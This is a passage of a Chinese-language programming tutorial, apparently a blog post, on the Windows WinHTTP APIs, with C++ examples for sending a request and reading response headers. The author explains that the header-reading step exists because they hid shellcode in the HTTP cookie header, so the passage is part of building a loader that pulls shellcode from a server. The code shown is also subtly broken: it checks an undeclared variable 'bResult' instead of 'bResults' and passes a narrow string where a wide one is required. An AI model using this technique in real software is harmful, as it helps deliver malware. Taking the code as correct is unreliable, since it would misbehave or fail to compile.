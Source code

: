 例如：

    
    
    BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);  
      
    if(!bResult){  
        cout <<"失败";  
        exit(1);  
    }  
    else{  
        bResults = WinHttpReceiveResponse(hRequest, NULL);  
        if(!bResult){  
            cout<<"失败";  
        }  
        else{  
            cout << "成功";  
        }  
    }  
      
    

  1. WinHttpQueryHeaders  
这个api可以获取http头的一些信息，比如cookie之类的 (使用这个api是因为我把shellcode放在了http头中)  
https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-
winhttpqueryheaders

    
    
    BOOL WinHttpQueryHeaders(  
      [in]           HINTERNET hRequest,//WinHttpOpenRequest返回的句柄，需要在调用这个api前调用WinHttpReceiveResponse函数  
      [in]           DWORD     dwInfoLevel,  
      [in, optional] LPCWSTR   pwszName,  
      [out]          LPVOID    lpBuffer,  
      [in, out]      LPDWORD   lpdwBufferLength,  
      [in, out]      LPDWORD   lpdwIndex  
    );  
    

例如：  
以下代码即可获取cookie  
`bResults是前面调用WinHttpSendRequesth和WinHttpReceiveResponse后的布尔值`

    
    
    if (bResults){  
        bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_RAW_HEADERS_CRLF, WINHTTP_HEADER_NAME_BY_INDEX, NULL, &dwSize, WINHTTP_NO_HEADER_INDEX);  
        if (GetLastError() == ERROR_INSUFFICIENT_BUFFER)  
        {  
            lpOutBuffer = new WCHAR[dwSize / sizeof(WCHAR)];  
            bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "cookie", lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);  
            printf("%s",lpOutBuffer);  
        }  
    }  
    
